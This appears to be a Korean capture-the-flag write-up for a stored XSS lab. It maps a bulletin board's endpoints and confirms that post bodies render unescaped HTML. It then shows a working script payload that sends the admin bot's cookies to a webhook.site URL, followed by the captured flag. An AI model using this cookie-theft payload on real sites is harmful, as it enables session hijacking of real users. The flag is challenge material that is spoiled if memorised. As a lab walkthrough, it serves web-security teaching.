



# 01. XSS #1 — 기본 (Stored XSS)

## 문제 설명
로그인/회원가입 기능과 게시판(글쓰기·목록·신고)이 있는 웹 애플리케이션이다.
신고(`/report`) 기능에는 "입력한 URL을 관리자(admin)가 로그인된 상태로 방문합니다"라는
설명이 있어, 저장된 게시글에 스크립트를 심고 관리자가 이를 열람하도록 유도하는
Stored XSS → 쿠키 탈취 시나리오임을 알 수 있다.

## 분석 / 접근

### 1) 입력 지점과 파라미터 파악
페이지 소스를 확인해 각 기능의 엔드포인트와 파라미터를 정리했다.

| 기능 | 경로 | 메서드 | 파라미터 |
|------|------|--------|----------|
| 회원가입 | `/register` | POST | `userid`, `userpw` |
| 로그인 | `/login` | POST | `userid`, `userpw` |
| 글쓰기 | `/write` | POST | `subject`, `content` |
| 신고 | `/report` | POST | `url` |

### 2) 렌더링 여부 테스트
글쓰기 본문(`content`)에 `<b>test</b>`를 저장한 뒤 게시글(`/board/7`)을 확인했다.
제목(`subject`)은 문자열 그대로 노출되었지만, 본문(`content`)은 `test`가 굵게 렌더링되었다.
즉 `content`는 HTML을 이스케이프 없이 그대로 출력하므로 XSS가 가능하다.



### 3) 신고 기능 동작 확인
신고 폼은 글 번호(id)가 아니라 URL 전체를 받는다.
관리자 봇은 외부 주소(`edu.arang.kr`)가 아니라 컨테이너 내부 주소로 접근하며,
placeholder가 `http://xss-1:9101/board/1` 형식을 안내한다.
따라서 신고 `url`에는 `http://xss-1:9101/board/{글번호}`를 넣어야 봇이 정상 방문한다.

## 익스플로잇

### 공격 흐름
```
[1] content에 쿠키 탈취 스크립트를 담아 게시글 저장
        ↓
[2] /report 의 url 에 해당 글의 내부 주소(http://xss-1:9101/board/N) 제출
        ↓
[3] admin 봇이 로그인된 상태로 글 열람 → 본문 스크립트 실행
        ↓
[4] 봇의 document.cookie 가 webhook 으로 전송됨 → flag 획득
```

### 페이로드 (글쓰기 본문 `content`에 삽입)
```html
<script>new Image().src='https://webhook.site/5322b79d-3a2b-480f-b796-d35bfa19b29a/?c='+encodeURIComponent(document.cookie)</script>
```
`new Image().src=...` 는 이미지 요청을 발생시켜 별도 UI 변화 없이 조용히
쿠키를 외부(webhook)로 전송한다. (`<script>`가 필터링될 경우
`` 형태로 우회 가능하나, 본 문제에서는 `<script>`가 그대로 동작했다.)

### 신고 URL (`/report`의 `url`)
```
http://xss-1:9101/board/{글번호}
```

## 풀이 과정
1. webhook.site에서 수신용 고유 URL을 발급받고, `?c=hello` 테스트 요청으로
   쿼리스트링이 정상 수신되는지 확인했다.

   

2. 글쓰기 본문에 쿠키 탈취 페이로드를 저장했다.
3. 신고(`/report`)의 `url`에 해당 글의 내부 주소(`http://xss-1:9101/board/N`)를 제출했다.
4. 잠시 후 webhook.site에 봇의 요청이 도착했다. 요청의 `referer`가
   `http://xss-1:9101/`이고 `user-agent`가 `HeadlessChrome`인 점에서
   관리자 봇의 방문임을 확인할 수 있었고, `c` 파라미터에 봇의 쿠키가 담겨 왔다.

   

## 플래그
```
flag{75a9fc2a2b391fba4d28}
```
